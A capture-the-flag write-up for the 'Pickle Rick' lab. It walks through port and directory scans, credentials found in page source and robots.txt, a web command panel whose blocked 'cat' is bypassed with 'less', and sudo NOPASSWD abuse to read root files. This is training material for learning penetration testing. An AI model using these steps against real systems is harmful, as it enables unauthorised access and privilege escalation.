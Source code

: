 # Pickle Rick

# Task 1 | Pickle Rick

First we do a nmap scan:

```
nmap -sC -sV -p- 10.10.26.43
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 20:18 CET
Nmap scan report for 10.10.26.43
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2f:c1:a6:22:78:e6:f4:9e:8c:c4:7e:ff:6a:24:02:a9 (RSA)
|   256 d2:e1:3a:4e:e4:f0:29:50:f1:7c:a1:15:b6:78:ab:2e (ECDSA)
|_  256 ad:b2:a1:d9:bf:25:a6:82:67:39:51:34:ca:c3:48:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First we check out the website running on port 80 and start a gobuster scan:

```
gobuster dir --url http://10.10.26.43/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.26.43/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/20 20:29:17 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.10.26.43/assets/]

===============================================================
2021/12/20 20:43:09 Finished
===============================================================
```

And we also start a dirbuster scan:

```
dirb http://10.10.26.43

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Dec 20 20:48:16 2021
URL_BASE: http://10.10.26.43/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.26.43/ ----
==> DIRECTORY: http://10.10.26.43/assets/
[+] http://10.10.26.43/index.html (CODE:200|SIZE:1062)
[+] http://10.10.26.43/robots.txt (CODE:200|SIZE:17)
[+] http://10.10.26.43/server-status (CODE:403|SIZE:299)

---- Entering directory: http://10.10.26.43/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon Dec 20 20:52:40 2021
DOWNLOADED: 4612 - FOUND: 3
```

And also a nikto scan:

```
nikto -h 10.10.26.43
[-] Nikto v2.1.6
---------------------------------------------------------------------------
[+] Target IP:          10.10.26.43
[+] Target Hostname:    10.10.26.43
[+] Target Port:        80
[+] Start Time:         2021-12-20 20:55:49 (GMT1)
---------------------------------------------------------------------------
[+] Server: Apache/2.4.18 (Ubuntu)
[+] The anti-clickjacking X-Frame-Options header is not present.
[+] The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
[+] The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
[+] No CGI Directories found (use '-C all' to force check all possible dirs)
[+] Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
[+] Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
[+] Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
[+] Cookie PHPSESSID created without the httponly flag
[+] OSVDB-3233: /icons/README: Apache default file found.
[+] /login.php: Admin login page/section found.
[+] 7890 requests: 0 error(s) and 9 item(s) reported on remote host
[+] End Time:           2021-12-20 21:04:21 (GMT1) (512 seconds)
---------------------------------------------------------------------------
```

During the gobuster and dirbuster scan we can look at the web pages source code und see the note with the *Username 'R1ckRul3s'*.

We see the result */assets* in the gobuster scan so we look at this and see those files:

````
bootstrap.min.css	2019-02-10 16:37	119K	 
bootstrap.min.js	2019-02-10 16:37	37K	 
fail.gif	        2019-02-10 16:37	49K	 
jquery.min.js	    2019-02-10 16:37	85K	 
picklerick.gif	    2019-02-10 16:37	222K	 
portal.jpg	        2019-02-10 16:37	50K	 
rickandmorty.jpeg	2019-02-10 16:37	488K	 
````

We can download them but I dont think that they have anything special on it.
Now  the dirbuster scan is finished and we can look at the robots.txt:

````
Wubbalubbadubdub
````

Why?????? 
Ok I don't thing that helps us, so we check out the *'/login.php' page* from nikto and we see a login form.

We already found the username 'R1ckRul3s' in the 'index.html' code.
Now we can try some passwords and because of the suspicious content of the 'robots.txt' I tried it as password and it worked!!
we got redirected to the *page 'portal.php'*.
On the first look and test it looks like we have code execution or something. 
Lets try 'ls' and we see numerus of files and also the *file 'Sup3rS3cretPickl3Ingred.txt'* which we were searching for.

If we try to 'cat' the file 'Sup3rS3cretPickl3Ingred.txt' we get the message:

````
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
````

Now we know there is some validation.
But it looks like the file is in the same directory as the webserver is serving out login.php and index.html, so we can try to call the file like that:

````
http://10.10.26.43/Sup3rS3cretPickl3Ingred.txt
````

Yes we can **read the file like this and get our first flag**.

We know that we have command execution so lets try to trick the validation. 
As example we can list the whole '/' directory with 'ls -la /'.
We can also see all home directories with 'ls -la /home' and the home folder of rick with 'ls -la /home/rick' and there we find the second ingredient.

Before we only tried to cat the file but we can try another tool and see if it is also blocked:

````shell
less /home/rick/'second ingredients'
````

It worked and we get **the second flag**.

We can think that the last flag will be in the roots home so '/root' but if we try to read that directory with 'ls -la /root' we dont get back anything.
With the command 'whoami' we see that we are only 'www-data' and this user normaly doesn't have permission to read the root's home folder.
We can *check what permissions we have with 'sudo -l'*:

````
Matching Defaults entries for www-data on ip-10-10-26-43.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-26-43.eu-west-1.compute.internal:
(ALL) NOPASSWD: ALL
````

As we see we can execute any command without supplying a password. So we can execute 'sudo ls -la /root' and we get a result this time:

````
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Dec 20 19:15 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
````

As we can see there is most likely our 3 flag in the file '3rd.txt' so lets read it:

````shell
sudo less /root/3rd.txt
````

And we get our **3rd flag**!